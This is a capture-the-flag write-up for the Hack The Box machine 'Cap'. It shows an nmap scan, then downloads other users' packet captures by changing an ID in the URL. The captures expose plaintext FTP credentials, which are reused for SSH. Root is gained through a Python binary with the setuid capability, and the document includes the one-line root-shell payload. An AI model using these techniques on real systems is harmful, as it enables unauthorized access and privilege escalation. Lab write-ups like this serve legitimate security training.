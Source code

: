 # Enumeration
---
## Nmap Scan
```bash
Nmap scan report for 10.10.10.245
Host is up (0.19s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    gunicorn
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 NOT FOUND
|     Server: gunicorn
|     Date: Fri, 01 Oct 2021 13:19:21 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 232
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
|     <title>404 Not Found</title>
|     <h1>Not Found</h1>
|     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Server: gunicorn
|     Date: Fri, 01 Oct 2021 13:19:14 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 19386
|     <!DOCTYPE html>
|     <html class="no-js" lang="en">
|     <head>
|     <meta charset="utf-8">
|     <meta http-equiv="x-ua-compatible" content="ie=edge">
|     <title>Security Dashboard</title>
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <link rel="shortcut icon" type="image/png" href="/static/images/icon/favicon.ico">
|     <link rel="stylesheet" href="/static/css/bootstrap.min.css">
|     <link rel="stylesheet" href="/static/css/font-awesome.min.css">
|     <link rel="stylesheet" href="/static/css/themify-icons.css">
|     <link rel="stylesheet" href="/static/css/metisMenu.css">
|     <link rel="stylesheet" href="/static/css/owl.carousel.min.css">
|     <link rel="stylesheet" href="/static/css/slicknav.min.css">
|     <!-- amchar
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Server: gunicorn
|     Date: Fri, 01 Oct 2021 13:19:15 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Allow: GET, OPTIONS, HEAD
|     Content-Length: 0
|   RTSPRequest: 
|     HTTP/1.1 400 Bad Request
|     Connection: close
|     Content-Type: text/html
|     Content-Length: 196
|     <html>
|     <head>
|     <title>Bad Request</title>
|     </head>
|     <body>
|     <h1><p>Bad Request</p></h1>
|     Invalid HTTP Version &#x27;Invalid HTTP Version: &#x27;RTSP/1.0&#x27;&#x27;
|     </body>
|_    </html>
|_http-server-header: gunicorn
|_http-title: Security Dashboard

Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 199/tcp)
HOP RTT       ADDRESS
1   186.65 ms 10.10.14.1
2   186.72 ms 10.10.10.245

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 156.38 seconds

```

In the above nmap scan report you can see that we have 21,22,80 ports open
For ftp the anonymous login is not enabled nither default credentials works so we will proceed further with the http port.

---

## User
If you navigate on the http page you can see the dashboard directly logged in with **Nathan** user

<img src="https://github.com/thedarktech/HTB-Writeups/blob/main/Cap/Pasted image 20211001194134.png" />

When You navigate to the **security snapshot ** you can see that you are able to download a packet capture files 
in the url bar if you change the url (end of the url which has a single digit) you can see the different packet counts
so we will download the one with most packets. you will find it on 

```url
http://10.10.10.245/data/0
```

<img src="https://github.com/thedarktech/HTB-Writeups/blob/main/Cap/Pasted image 20211001194519.png" />

we will download the pcap file and open it in wireshark. Where we can see the ftp traffic. Which is basically a ftp session and as ftp has no encryption while transfering data you can see the password in plain text. so lets follow one of the ftp stream.

<img src="https://github.com/thedarktech/HTB-Writeups/blob/main/Cap/Pasted image 20211001194811.png" />

```txt
USER nathan
PASS Buck3tH4TF0RM3!
```

you can use these credentials to log in the ssh as user **nathan**

```bash
└─# ssh nathan@10.10.10.245
nathan@10.10.10.245's password: 
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

 System information disabled due to load higher than 2.0

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation

63 updates can be applied immediately.
42 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Fri Oct  1 14:14:56 2021 from 10.10.16.17
nathan@cap:~$ 

```

---

## Root

Here the sudo is not avalible of any of the file and there are no any ports filtered by firewall.
so we will check for capablities using this command

```bash
nathan@cap:~$ getcap -r / 2>/dev/null
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep

```

so now we can see that setuid is avalible for python so we can use following payload for geting the root access using python3

```bash
nathan@cap:~$ python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
root@cap:~# id
uid=0(root) gid=1001(nathan) groups=1001(nathan)
root@cap:~# 
```

And we got the root access

---
